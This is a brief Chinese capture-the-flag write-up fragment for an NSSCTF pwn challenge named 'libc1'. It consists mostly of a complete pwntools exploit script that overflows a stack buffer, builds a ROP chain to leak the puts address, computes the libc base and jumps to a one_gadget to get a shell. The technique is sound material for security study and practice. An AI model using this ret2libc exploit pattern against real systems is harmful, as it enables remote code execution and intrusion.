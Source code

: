后面就是用 ROP 泄露 libc 地址，题目还给了 libc 文件，可以直接执行 one_gadget

exp：

```python
#!/usr/bin/env python3

from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
# link=process("./libc1")
link=remote("node2.anna.nssctf.cn",28543)
elf=ELF("./libc1")
libc=ELF("./libc.so.6")

rdi=0x400d73
puts_got=elf.got[b'puts']
puts=elf.plt[b'puts']
read=0x400B1E
main=0x400C4F

link.recvuntil(b'check youer money')
link.send(b'3')
link.send(b'1000')
link.recvuntil(b'check youer money')
link.send(b'7')
link.recvuntil(b'exchange?')
link.send(b'1000')
link.recvuntil(b'check youer money')
link.send(b'5')

# gdb.attach(link)
# pause()

link.recvuntil(b'it!!!')
payload=b'a'*0x48+p64(rdi)+p64(puts_got)+p64(puts)+p64(read)
link.send(payload)

# gdb.attach(link)
# pause()

puts_addr=u64(link.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(puts_addr))
libc_base=puts_addr-libc.sym[b'puts']
print(hex(libc_base))

# gdb.attach(link)
# pause()

link.recvuntil(b'it!!!')
ogg=[0x4527a,0xf03a4,0xf1247]
payload=b'a'*0x48+p64(libc_base+ogg[2])
link.send(payload)

link.interactive()
```
